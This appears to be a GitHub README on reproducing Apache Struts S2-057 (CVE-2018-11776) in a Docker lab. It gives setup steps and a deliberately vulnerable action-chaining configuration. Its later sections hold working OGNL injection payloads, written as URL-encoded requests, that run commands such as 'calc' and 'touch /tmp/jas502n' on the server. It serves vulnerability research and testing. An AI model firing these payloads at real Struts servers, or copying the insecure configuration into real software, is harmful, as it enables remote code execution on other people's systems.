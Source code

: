 # St2-057 Online Docking Environment, Enjoy!


# 0x01 Setting up the environment docker

https://github.com/surbo/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 Build a st2-057 vulnerability environment

```
docker exec -i -t 88fd8d560155 /bin/bash
```
Start in the background and enter docker

![](./docker-struts-048.jpg)


According to the announcement
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
There is a s2-057 vulnerability in Struts 2.5.16, then download this version.

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/


```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 Modifying the configuration file

First find the file struts-actionchaining.xml, and found that there are 2 need to modify
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
Profile modification - reference link:
https://lgtm.com/blog/apache_struts_CVE-2018-11776

Change to the following:

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.actionchain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

Then go to the bin directory, kill the process, because the configuration file is modified, so you need to restart the service.
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 Restart the service, st2-057 is completed.
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05 Verify st2-057
Docker target::http://www.canyouseeme.cc:8080/Struts2-showcase/

Command execution:http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionchain1.action

${(111+111)}

Get the execution result returned in the url::http://www.canyouseeme.cc:8080/Struts2-showcase/222/register2.action

![](./st2-57.jpg)

#### Ps: ${(111+111)} can be replaced with the previous poc, such as S2-032

http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action

![](./calc.jpg)

poc-example:
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```
Split
```
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```
# 0x06 Use the old version of the bomb calculator or command to execute
(Vulnerability environment: struts-2.2.3.1-all.zip)
download link: http://archive.apache.org/dist/struts/binaries/struts-2.2.3.1-all.zip

![](./struts-2.2.3.1.jpg)

Ps: The pit is a low version capable of playing the calculator, the high version cannot

Windows:

```
http://127.0.0.1:8080/struts3-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew %20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b51020%5d%2c%23c.read(%23d)%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23sbtest.println(%23d)%2c%23sbtest.close())%7d/actionChain1.action
```
![](./windows.png)

Linux:

```
http://www.canyouseeme.cc/struts3-showcase/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/jas502n%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
![](./linux.png)

# 0x07 Reference link

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```


